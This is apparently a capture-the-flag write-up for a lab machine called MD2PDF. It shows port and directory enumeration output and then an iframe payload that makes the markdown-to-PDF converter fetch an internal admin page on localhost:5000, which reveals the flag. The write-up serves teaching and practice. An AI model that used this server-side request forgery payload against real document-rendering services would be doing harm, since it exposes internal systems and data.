

# MD2PDF



## Port Enumeration

```bash
root@ip-xx-xx-xxx-xx:~# rustscan -a xx.xx.xxx.xx -r 1-65535 --ulimit 5000 -- -A
.
.
.
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
Open xx.xx.xxx.xx:5000
.
.
.
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  rtsp    syn-ack
.
.
.
5000/tcp open  rtsp    syn-ack

```

RTSP stands for [Real-time Streaming Protocol](https://en.wikipedia.org/wiki/Real-Time_Streaming_Protocol), which provides real-time interaction. 

## RTSP (Port 80)


We can inspect the code

```bash
<script>
    $(document).ready(function () {
      var editor = CodeMirror.fromTextArea(document.getElementById("md"), {
        mode: "markdown",
        lineNumbers: true,
        tabSize: 2,
        lineWrapping: true,
      })
      $("#convert").click(function () {
        const data = new FormData()
        data.append("md", editor.getValue())
        $("#progress").show()

        fetch("/convert", {
          method: "POST",
          body: data,
        })
          .then((response) => response.blob())
          .then((data) => window.open(URL.createObjectURL(data)))
          .catch((error) => {
            $("#progress").hide()
            console.log(error)
          })
      })
    })
  </script>
```

We can see that the data is send the the `/convert` without any sanitization. So we can provide an arbitrary payload and render using html tags such as `<iframe>` , which will display the content  

## RTSP(Port 5000)

- Port 5000 is basically port 80, but much simpler in terms of styling, and it is also not interactive
    
    
    

## Endpoint Enumeration

We can do a simple enumeration to find out is there any interesting endpoints.

```bash
root@ip-xx-xx-xxx-xx:~# gobuster dir -u http://xx.xx.xxx.xx/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://xx.xx.xxx.xx/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
Progress: 4655 / 4656 (99.98%)
===============================================================
Finished
===============================================================

```

Here we find `/admin`, however it is forbidden as it only allow internal access with port 5000


## Exploit

To exploit, we just need to use an `iframe`, with the `src` being `localhost/admin`, using `<iframe src="http://localhost:5000/admin"></iframe>`


After that, A new window will pop up, and the flag can be seen


Flag: `flag{1f4a2b6ffeaf4707c43885d704eaee4b}`
